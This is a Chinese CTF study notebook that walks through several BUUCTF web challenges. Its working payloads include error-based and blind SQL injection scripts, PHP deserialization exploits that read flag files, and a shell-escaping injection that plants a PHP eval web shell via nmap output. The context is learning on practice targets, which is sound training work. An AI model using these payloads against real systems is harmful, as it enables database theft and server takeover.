这是一个代码审计的题目

看到了`useless.php`

查看了一下，是个空白页面，也没有网页源代码

第一个绕过, 构造payload：

`text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`

第二个绕过，利用这里的文件包含读取这个`useless.php`:

先使用filter伪协议读取文件，构造payload

`file=php://filter/read=convert.base64-encode/resource=useless.php`

base64解码之后如下：

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

第三个绕过：

构造本地的序列化exp，使得成员变量$file为`flag.php`

O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

结合起来利用为

`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:%22Flag%22:1:%7Bs:4:%22file%22;s:8:%22flag.php%22;%7D`



看网页源代码可以看到打印出来的flag



#### 总结

[PHP伪协议](https://www.freebuf.com/column/148886.html)

php://filter用于读取源码
php://input用于执行php代码
data://text/plain;base64,本来也是用来执行php代码的

# 20210509

### [极客大挑战 2019]HardSQL

[参考WP](https://www.cnblogs.com/wangtanzhi/p/12257412.html)



刚进题目发现页面加载不太快的样子，直接输入账密试试传参，发现还是如上图一样的题目

简单测试一下，发现`union`被直接过滤掉了，不能使用双写绕过等方式，不过我们可以使用报错注入进行注入可以使用extractvalue和updatexml进行报错注入。构造payload如下：

出数据库版本：

`?username=admin%27or(updatexml(1,concat(0x7e,version(),0x7e),1))%23&password=21`

出当前数据库：

`?username=admin%27or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=21`

得到`geek`

查表：

`admin'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23&password=21`

得到`XPATH syntax error: '~H4rDsq1~'`

查字段:

`?username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23&password=21`

得到:

```
XPATH syntax error: '~id,username,password~'
```

出flag字段：

`?username=admin%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23&password=123`

得到前半部分的flag:

```flag{a1001a32-bd51-4126-904d-8f```



这里得在用一个函数查右半部分，因为报错本身是有长度限制的，得用截取函数截取一下。构造mid和substr函数发现都是被过滤的，屏幕上只会出现



```?username=admin'or(updatexml(1,concat(0x7e,(select(group_concat((mid(password,25,99))))from(H4rDsq1)),0x7e),1))%23&password=21```

```http://b2cf23f0-6fb4-4f54-a3ee-fb29a1a588e9.node3.buuoj.cn/check.php?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat((substr(password,25,99))))from(H4rDsq1)),0x7e),1))%23&password=21```

这里学到了right函数

```?username=admin'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,30))))from(H4rDsq1)),0x7e),1))%23&password=21```



得到

```
XPATH syntax error: '~2-bd51-4126-904d-8f6f7a95eb8c}~'
```

#### 总结

1. updatexml的使用

本地测试了一下

```select * from `security`.users where username='Dumb' or(updatexml(1,concat(0x7e,(select "hahaha")),0x7e),1);```



这里的```select * from `security`.users where username='Dumb'```其实是直接可以查到值的，但是这里还是可以使用`or`来连接updatexml函数来进行报错，说明这个函数的使用`or`来连接的时候，是不需要对`username`进行无值处理的。经过测试，前面的`username`不管有没有值，后面如果使用`updatexml`函数，可以使用`or`或者`and`来连接都可以的。

2. 绕过waf

本题的payload如下：

```?username=admin'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))%23&password=21```

`or`, `and`等的连接符左右两边可以不适用空格的，圆括号可以直接括住语句避免空格的出现

3. right函数

因为报错语句都有长度限制，所以带回来的报错信息长度肯定不会太长，这里一度使用mid函数和substr函数来进行后半截flag的读取，但是都被过滤了。这里学到了新的函数`right()`。这个函数的第二个参数是说截取右边多长的字符串。

### [CISCN2019 华北赛区 Day2 Web1]Hack World

[参考链接](https://www.cnblogs.com/20175211lyz/p/11435298.html)



搜索框输入1或2会返回结果，其他都返回`bool(false)`。过滤了`union`、`and`、`or`、空格等，包括`/**/`，后来看源码知道是过滤了*。

有意思的是输入1/1时会正常返回结果，可以判断这是数字型的sql注入

输入`1`



```
Hello, glzjin wants a girlfriend.
```

输入`-1`



```
Error Occured When Fetch Result.
```

输入`2`



```
Do you want to be my girlfriend?
```

输入`3`



```
Error Occured When Fetch Result.
```

过滤了这么多字符

```
array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./')
```

附一个布尔盲注的EXP：

```
import requests

url = 'http://64ed7296-9aea-43ac-84ec-24e5c6f616a7.node1.buuoj.cn/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select      flag    from    flag),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        if 'Hello' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```

另一个WP写到的脚本：

```
import requests
#url是随时更新的，具体的以做题时候的为准
#有时候太快了状态码是429，发现数据异常可以多跑两遍
url = 'http://c0f13472-2391-4772-adfa-291d7bcf25d0.node3.buuoj.cn/'
data = {"id":""}
flag = 'flag{'

i = 6
while True:
#从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin+end)//2
    while begin<end:
        data["id"] = "if(ascii(substr((select		flag		from	flag),{},1))>{},1,2)".format(i,tmp)
        r = requests.post(url,data=data)
        if 'Hello' in r.text:
            begin = tmp+1
            tmp = (begin+end)//2 
        else:
            end = tmp
            tmp = (begin+end)//2
    flag+=chr(tmp)
    print(flag)
    i+=1
    if flag[-1]=='}':
        break
```

?? 此处盲注脚本得会熟练编写

#### 总结

1. 快速判断注入点是字符型还是数字型

快速判断注入点是字符型还是数字型,我是看了WP中提到的`1/1`想到的，本地测试的时候，`1/1`可以被当作字符的1和数字的1，WP中提到的这个不严谨，但是思考了下，在mysql中测试如下:

`select * from `security`.users where id='0.5+0.5';`



`select * from `security`.users where id=0.5+0.5;`

这个payload还可以避免mysql中**数字开头字符被认为数字的弱类型特性**



2. 空格的N种绕过姿势

空格的绕过有这些方法我测试是可以的
%09 %0a %0b %0c %0d /**/ /*!*/或者直接tab
%20 好像没法绕，%00截断好像也影响sql语句的执行
或者用括号也可以。任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
本题中可以if(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'),1,2)

3. 本题源码

源码是这么写的

```
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    
    if($query){
        $result = mysql_fetch_array($query);
        
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
        var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}
```

### [网鼎杯 2018]Fakebook

考点： SSRF， 反序列化， SQL注入

[参考链接](https://blog.csdn.net/weixin_43940853/article/details/105081522)


扫描发现有爬虫机器人协议：

`http://5a72ec14-18e7-43cd-8f25-d5c3001fcffd.node3.buuoj.cn/robots.txt`

发现是爬虫机器人协议里有备份文件



```
User-agent: *
Disallow: /user.php.bak
```

把`/user.php.bak`下载下来看到源码：

```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```




在这里可以看到网页会显示博客的地址，这里就是ssrf的用法，用这个功能可以访问本地的敏感文件

再看网页功能，这里是可以在`Join`功能处新建一个用户，如下，点击用户名的超链接可以进入一个可以SQL注入的地方：


发现URL处默认有一个`no`的传参：

`http://5a72ec14-18e7-43cd-8f25-d5c3001fcffd.node3.buuoj.cn/view.php?no=1%27`



访问`http://5a72ec14-18e7-43cd-8f25-d5c3001fcffd.node3.buuoj.cn/view.php?no=0.5%2B0.5`



测试得这是个数字型注入

输入`0`:



因为有报错，所以直接进行报错注入：

`?no=1%20and%20updatexml(1,concat(%27~%27,(select/**/database()),%27~%27),1)%23`



得到当前数据库：`fakebook`

这里插到相关数据：

```
username:qqq
passwd:4ce9792f2871988864761ef032ce09646333c81667d5d3360a82d7c47411c0b46846437ac5e304880fb5d7510d0af3d7af5a666a1f0459df1e04d1a8683bbe13
data: O:8:"UserInfo":3:{s:4:"name";s:3:"qqq";s:3:"age";i:12;s:4:"blog";s:13:"www.baidu.com";}
```

`/view.php?no=1%20and%20updatexml(1,concat(%27~%27,substr((select%20passwd%20from%20users),110,32),%27~%27),1)%23`



```
[*] query error! (XPATH syntax error: '~a81a538327af927da3e~')
```

这里发现data数据是一段序列化数据，根据这个序列化字符串内容还原序列化EXP：

```
<?php

class UserInfo
{
    public $name = "1";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";
	
}

$a = new UserInfo();
echo serialize($a);
?>
```

我们可以进行sql注入，使用虚拟表替换的方式把反序列化注入进去，最终构造EXP如下：

`/view.php?no=-1/**/union/**/select/**/1,2,3,%27O:8:%22UserInfo%22:3:{s:4:%22name%22;s:1:%223%22;s:3:%22age%22;i:2;s:4:%22blog%22;s:29:%22file:///var/www/html/flag.php%22;}%27%20from%20users`



网页上什么也没有，但是查看网页源代码可以看到``` src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s1MjFhYmE4My01YmE2LTQ1ODctYTM1OC0zZGEyYmExOTk5YzV9IjsNCmV4aXQoMCk7DQo='```这个东西



base64解码一下可知：

```
<?php

$flag = "flag{521aba83-5ba6-4587-a358-3da2ba1999c5}";
exit(0);

```

#### 总结

1. PHP中的cURL

```
<?php

$ch = curl_init();
// 创建一个cURL资源

curl_setopt($ch, CURLOPT_URL, "http://www.w3cschool.cc/");

curl_setopt($ch, CURLOPT_HEADER, 0);
// 设置URL和相应的选项

curl_exec($ch);
// 抓取URL并把它传送给浏览器

curl_close($ch);
// 关闭cURL资源，并且释放系统资源
?>
```

curl可用file协议，使用file协议读取文件：`file:///var/www/html/flag.php`

2. SQLi报错盲注 updatexml

[sqli-labs注入骚操作之报错型盲注（updatexml函数）](https://blog.csdn.net/qq_51954912/article/details/115469041)

这个题这里因为有数据库的报错信息输出，所以可以直接进行报错盲注。不过这个题目因为不是盲注的环境，直接使用联合查询注入的方式进行sqli也是可以的。

其格式为updatexml（xml_doc,Xpath,new_value）
1.xml_doc为XML文档对象名称，Xpath_str是路径格式，new_value是替换符合条件的数据。
很官方，看不懂，附上自己理解。举个栗子：
updatexml(1, (concat(0x7e,(select datebase),0x7e)),1)
注：0x7e为十六进制~的代替符
concat(0x7e,(select datebase),0x7e的返回值不符合xml的语法，语法就会报错，然后后台就会将报错信息返回到前端就达到了获取信息的目的

语法就是下面这个，要改的东西只有里面的语句，concat等其他信息不要删除，括号也不要瞎改，只改里面`select`。

`select * from `security`.users where id=-11 and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

`1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #`


### [GXYCTF2019]BabySQli

[参考WP](https://www.cnblogs.com/gaonuoqi/p/12355035.html)



感觉是一个sql注入的题目

查看网页源代码，可以看到表单会发送到`search.php`这么一个文件上



那么直接访问这个网页，查看网页源代码：

```
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>Do you know who am I?</title>


wrong user!
```

这串字符串b64解码解不对，这其实是base32编码的字符串。对那串base32字符串解码得到:

```
>>> base64.b32decode("MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5")
b'c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw=='
```

对这个字符串再进行base32解码得到:

```
>>> a = b'c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw=='
>>> base64.b64decode(a)
b"select * from user where username = '$name'"
```

这里测试是有WAF的，通过burp对`username`关键字跑`sqli.txt`，测出waf禁止`()=和or`，`or`的话其实大小写绕过即可

因为页面有报错，第一时间想到报错盲注的方式进行sqli，但是过滤小括号，限制了各种函数的使用。通过`order by`子句判断有3列

接下来，由于前面base64、32编码解码的那个sql语句，我们先采测密码是明文比较，然后就开始```name=-1' union select 0,'admin','123'%23&pw=1234```这种，当然，这里面的每列的顺序自己试试，总之发现密码不是明文比较的。结合经验来判断，密码可能经过md5算法后再进行比较，如下。

这个就是sql语句，接下来构造虚拟表的sql的payload来进行攻击：

```name=-1' union select 0,'admin','81dc9bdb52d04dc20036dbd8313ed055'%23&pw=1234```



得到flag

### [网鼎杯 2020 青龙组]AreUSerialz

[参考WP](https://blog.csdn.net/m0_46246804/article/details/108746253)



这一看过去是一个代码审计的题目

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

`is_valid()`函数对传入的字符串进行判断，确保每一个字符ASCII码值都在32-125，即该函数的作用是确保参数字符串的每一个字符都是可打印的，才返回true。

```
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

```

程序入口如下：

```
if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
```

该段代码首先通过get方法获得字符串str，若str中没有不可打印的字符串后，对字符串执行反序列化操作。因此我们再看一遍FileHandler类中的内容。

可以看到构析函数中，op使用强类型比较===判断this->op的值是否等于字符串2，如果等于，则将其置为1。之后执行process()方法。

在process()方法中，则使用弱类型比较==判断op的值是否对等于字符串2，若为真，则执行read()方法与output()方法。而read方法中，使用file_get_contents()函数来读取属性filename路径的文件。

发现若想读取flag，需要绕过process()方法的判断，防止op被置一。于是可以传入一个**数字2**，绕过process()方法的判断。构造EXP：

```
<?php
highlight_file(__FILE__);
	class FileHandler {
        protected $op = 2;
        protected $filename = "php://filter/read=convert.base64-encode/resource=d:\\phpstudy_pro\\WWW\\flag.php";
        protected $content;
    }
    $a = new FileHandler();
        $b = serialize($a);
        echo($b);
?>
```

查看网页源代码，可以看到有不可打印字符。这是因为序列化后protected类型的属性存在不可打印字符。（经测试，private类型的属性序列化后也产生不可打印字符）**对于PHP版本7.1+，对属性的类型不敏感**，我们可以将**protected类型**改为**public**，以消除不可打印字符。

利用该payload可以读到flag。

```
<?php
highlight_file(__FILE__);
	class FileHandler {
        public $op = 2;
        public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
        public $content;
    }
    $a = new FileHandler();
        $b = serialize($a);
        echo($b);
?>
```



```
[Result]:
PD9waHAgJGZsYWc9J2ZsYWd7NWViNjg0OGEtODdlOC00MTBlLTg1OGItMTgwZGYzMWUzMWZjfSc7Cg==
```

得到的base64解码如下:

```
>>> import base64
>>> base64.b64decode("PD9waHAgJGZsYWc9J2ZsYWd7NWViNjg0OGEtODdlOC00MTBlLTg1OGItMTgwZGYzMWUzMWZjfSc7Cg==")
b"<?php $flag='flag{5eb6848a-87e8-410e-858b-180df31e31fc}';\n"
```

#### 总结

1. file_get_content()可以读取php://filter伪协议。

2. protected/private类型的属性序列化后产生不可打印字符，public类型则不会。

3. PHP7.1+对类的属性类型不敏感。

4. 关于强弱类型比较“===”、“==”。

### [MRCTF2020]你传你🐎呢

[参考WP1](https://blog.csdn.net/qq_51652864/article/details/116048836)

[参考WP2](https://www.cnblogs.com/Arctic-Maple/p/14497392.html)


一言难尽。。。祖安CTF。。。

先上传`.htaccess`:



上传成功文件之后就手就有路径回显，省的我们找后门路径找不见。


上传个jpg后缀的shell：



#### 总结

`.user.ini`可以

```
GIF89a
auto_prepend_file=test.jpg
```

`.htaccess`不能这么写，不能有`GIF89a`这种文件头，像下面这种写法是不奏效的，`.htaccess`不会正常生效。错误示范：

```
GIF89a
<FilesMatch "papa">
 
SetHandler application/x-httpd-php
 
</FilesMatch>
```

### [MRCTF2020]Ez_bypass

[参考链接](https://blog.csdn.net/qq_41628669/article/details/106133115)



直接看网页会感觉这个代码非常凌乱。右键查看网页源代码可以看到整齐的代码了：

```
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

很明显这就是代码审计的题目了。

md5用数组绕，md5()函数无法操作数组，返回NULL，两个NULL相等

is_numeric()函数用1234567a绕。1234567a是字符串，但是弱比较的时候，1在前，php会将其整体转成数字，就可以通过比较了。

主要就是PHP数字开头字符串的弱类型和md5比较空数组绕过的题

```
POST /?id[]=1&gg[]=2 HTTP/1.1
Host: c00b9850-94ed-456d-87c0-6ee19945a11e.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 15

passwd=1234567a
```




### [GYCTF2020]Blacklist

[参考WP](https://blog.csdn.net/BROTHERYY/article/details/107561896)



这个题的代码和上面的**强网杯-随便住**一样，可以使用堆叠注入

构造payload：

`-1;show tables;%23`



发现这俩表

```
array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}


```

这个题目应该和强网杯的随便住解法差不多，但是这里看新的WP，有不一样的思路。

可以看到有`FlagHere`和`words`这两个表，过滤了一些关键字

这里使用mysql特有的查询:**handler**

通过handler table_name open打开一张表，在这里声明一个名为table_name的句柄。

通过handler table_name read first获取句柄的第一行，通过read next依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果

构造payload：`?inject=1%27;handler%20FlagHere%20open;handler%20FlagHere%20read%20first;%23`



#### 总结

没想到这个题还有这个解法，看来**强网杯随便住**这个题也能有其他的解法。

关语mysql支持的handler特性可参考: MySQL 之 handler 的详细使用及说明`https://blog.csdn.net/qq_43427482/article/details/109898934`


# 20210510

### [BUUCTF 2018]Online Tool

[参考链接](https://blog.csdn.net/qq_26406447/article/details/100711933)

[参考WP2](https://althims.com/2019/07/25/buu-online-tool-wp/)



代码审计

```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

其中这部分代码：

```
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
```

这两个函数连用会产生问题。

简单来说就是两次转义之后出现了问题，没有考虑到单引号逃逸的问题。

然后往下看，看到```echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);```

这里有个`system`来执行命令，而且有传参

这个代码本意是希望我们输入ip这样的参数来进行传参。但是通过上面这两个函数的规则过滤，我们的输入会被单引号包裹起来，但是又有了那两个函数的漏洞会导致单引号逃逸出来。

这里常见的命令后注入操作如 `|`, `&`, `&&`都不行，虽然我们通过上面的操作逃过了单引号，但`escapeshellcmd`会对这些特殊符号前面加上`\`来转移

nmap命令中有个参数可以把命令和结果写入到文件中：`-oG`

构造payload：``````?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '``````

本地测试下：



```
Recieved GET :
string(45) "' -oG hack.php"
Escapeshellarg Handlered :
string(47) ""' -oG hack.php""
Escapeshellcmd Handlered :
string(60) "^"^' ^<^?php @eval^(^$_POST^[ hack ^]^)^;^?^> -oG hack.php^""

```

接下来我们就开始上传一句话木马了：

```?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '```

执行后返回文件的名字



```http://e0990edf-d9ff-4b89-ab48-ebc960232bca.node3.buuoj.cn/a8c236afeed2ae0c66f5510d99c09605/hack.php```

直接使用蚁剑进行连接：



这里可以蚁剑看一下被连接的文件里的内容(注，这是上了另一个木马hack4.php, 但是内容和上面是一样的)：

```
# Nmap 7.70 scan initiated Mon May 10 06:18:04 2021 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oG hack4.php \ <?php @eval($_POST[hack]);?> \\
# Nmap done at Mon May 10 06:18:04 2021 -- 0 IP addresses (0 hosts up) scanned in 0.14 seconds
```

#### 细节剖析

这里我还是不太懂，本地复现这两个函数代码的时候，发现过滤后他出现了`^`这个符号来过滤，如下图：



所以getshell题目环境后直接拿题目环境剖析一下细节，题目环境是5.6：



然后蚁剑修改题目源代码`index.php`:



```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    echo "<br>";
    echo "Recieved Get Value:<br>";
    print_r($host);
    $host = escapeshellarg($host);
    echo "<br>";
    echo " escapeshellarg:<br>";
    print_r($host);
    $host = escapeshellcmd($host);
    echo "<br>";
    echo "  escapeshellcmd:<br>";
    print_r($host);
    echo "<br>";
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo "<br>";
    var_dump(("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host));
    echo "<br>";
    print_r(("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host));
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}


```

再重新发送payload:```http://b1f3b22e-58ce-4883-80cf-3c5b7e52f1b5.node3.buuoj.cn/?host=' <?php @eval($_POST["hack"]);?> -oG hack8.php '```

页面输出(注意得看网页源代码哈，不然```<?php phpcode?>```这种标签语句不会在页面上显示，哈哈哈，折腾了好久我才发现这个问题):

```
<br>Recieved Get Value:<br>' <?php @eval($_POST["hack"]);?> -oG hack8.php '<br> escapeshellarg:<br>''\'' <?php @eval($_POST["hack"]);?> -oG hack8.php '\'''<br>  escapeshellcmd:<br>''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack8.php '\\'''<br>you are in sandbox 814e61c59c5b784a395c75cc935de3d2<br>string(105) "nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack8.php '\\'''"
<br>nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack8.php '\\'''Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-10 06:50 UTC
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.09 seconds
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.09 seconds
```

一下总结下不同阶段这个payload的变化情况：

```
GET型传参，输入：
?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '

host接收到的参数:  ' <?php @eval($_POST["hack"]);?> -oG hack8.php '

经过escapeshellarg函数处理：

host成为了  ''\'' <?php @eval($_POST["hack"]);?> -oG hack8.php '\'''

经过escapeshellcmd函数处理：

host成为了  ''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack8.php '\\'''

所以最后的进行的命令执行语句为：

nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack8.php '\\'''

```

现在我们细细分析一下这段payload:

```nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack5.php '\\'''```

其实我们可以看到单引号并没起到什么作用，只是自顾自的包裹。而这里面一句话木马中的特殊字符被转义后以字符的形式放入了`hack5.php`中。

然后看下写入的hack5.php中的代码如何：

```
# Nmap 7.70 scan initiated Mon May 10 06:21:25 2021 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oG hack5.php \ <?php @eval($_POST[hack]);?> \\
# Nmap done at Mon May 10 06:21:25 2021 -- 0 IP addresses (0 hosts up) scanned in 0.07 seconds

```

拥有完整的一句话木马的代码。这里我在想，是不是nmap后面跟一句话木马，不一定非要引号把一句话木马字段包裹为字符串，只要有不错的转义字符也能执行成功一句话写入文件中:

```
nmap -T5 -sT -Pn --host-timeout 2 -F  \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack6.php
```

这样子都能写入成功了：

```
└─# cat hack6.php                                             
# Nmap 7.91 scan initiated Mon May 10 02:35:18 2021 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oG hack6.php <?php @eval($_POST[hack]);?>
# Nmap done at Mon May 10 02:35:18 2021 -- 0 IP addresses (0 hosts up) scanned in 0.02 seconds
```

原来这个payload造成的效果是这样子进入linux的shell进行执行的。

就题目现有的魔改环境我试试不加引号的效果,访问`http://b1f3b22e-58ce-4883-80cf-3c5b7e52f1b5.node3.buuoj.cn/?host=%20%3C?php%20@eval($_POST[%22hack%22]);?%3E%20-oG%20hack7.php`：

页面输出：

```
<br>Recieved Get Value:<br> <?php @eval($_POST["hack"]);?> -oG hack7.php<br> escapeshellarg:<br>' <?php @eval($_POST["hack"]);?> -oG hack7.php'<br>  escapeshellcmd:<br>' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'<br>you are in sandbox 814e61c59c5b784a395c75cc935de3d2<br>string(96) "nmap -T5 -sT -Pn --host-timeout 2 -F ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'"
<br>nmap -T5 -sT -Pn --host-timeout 2 -F ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-10 07:01 UTC
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.08 seconds
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.08 seconds
```

下面看看这个payload的变化形式:

```

GET型传参，输入：
?host= <?php @eval($_POST["hack"]);?> -oG hack7.php

